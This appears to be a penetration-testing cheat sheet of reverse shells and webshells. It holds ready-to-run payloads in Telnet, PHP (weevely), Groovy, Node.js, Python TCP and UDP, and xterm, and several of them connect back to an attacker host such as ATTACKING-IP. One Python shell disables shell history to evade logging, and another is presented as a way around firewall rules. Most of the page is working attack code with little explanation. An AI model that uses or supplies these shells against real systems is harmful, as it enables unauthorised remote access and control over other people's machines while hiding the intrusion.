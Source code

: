 # Shells

## Telnet

```text
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```text
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## PHP

These are the most common types of shells we'll be turning to, as like it or not, PHP is probably the most common type of web server application.

### weevely

Using [weevely](https://github.com/epinna/weevely3) we can create php webshells:

```bash
weevely generate password /root/webshell.php
```

Now we execute it, point it to the remote page and get a shell in return:

```bash
weevely "http://192.168.1.101/webshell.php" password
```

## Groovy

```java
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

This was sourced from a gist user [frohoff](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

## Javascript

The following can be used as a general platform independent reverse shell:

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn((process.platform.contains('win')?'cmd.exe':'/bin/sh'),[]);
    var client = new net.Socket();
    client.connect(8080, "127.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node.js application from crashing
})();
```

**Source**: [https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/](https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/)  
**Source**: [https://github.com/evilpacket/node-shells/blob/master/node\_revshell.js](https://github.com/evilpacket/node-shells/blob/master/node_revshell.js)

We can also use [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to generate encoded reverse shells.

## Python

There are a myriad of ways to spawn a shell in Python, and for the classic TCP reverse shell:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Sometimes however, you may need to use an alternate protocol with python, and while the above is a good one-liner it's a bit difficult to work with. I'd recommend using pty, and an excellent source for pty-webshells is [https://github.com/infodox/python-pty-shells](https://github.com/infodox/python-pty-shells).  

An example alternative protocol is a UDP shell, which can be used to bypass firewall rules in some environments:

```python
import subprocess;subprocess.Popen(["python", "-c", 'import os;import pty;import socket;s=socket.socket(socket.AF_INET,socket.SOCK_DGRAM);s.connect((\"10.10.15.186\", 1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv(\"HISTFILE\",\"/dev/null\");pty.spawn(\"/bin/sh\");s.close()'])
```

These shells can't be captured with netcat however, you'll have to use socat

```bash
socat file:`tty`,echo=0,raw udp-listen:1234
```

## Xterm

Xterm sessions can also be used to retrieve a shell on a remote device.  This can be useful in cases where you've exploited a VNC instance, or in some cases if a WAF is restricting the character inputs you can do.  One of the benefits of spawning an xterm shell is that it is installed by default and has a short declaration syntax to spawn a shell.

For this you'll need xnest installed and a remote xterm client available. You can set up the listener on your own listener server using one of the following two commands:

```text
Xnest :3 -ac -once -query localhost
Xnest :3 -listen tcp
```

This opens a listener on port 6003, but you can choose any alternative to `:3`

The access control list on your server also needs to be amended to allow access from your machine.

```text
xhost +<remote ip>
```

On the remote machine you can then run:

```text
xterm -display <server ip>:3
```

From this you'll receive a reverse shell.


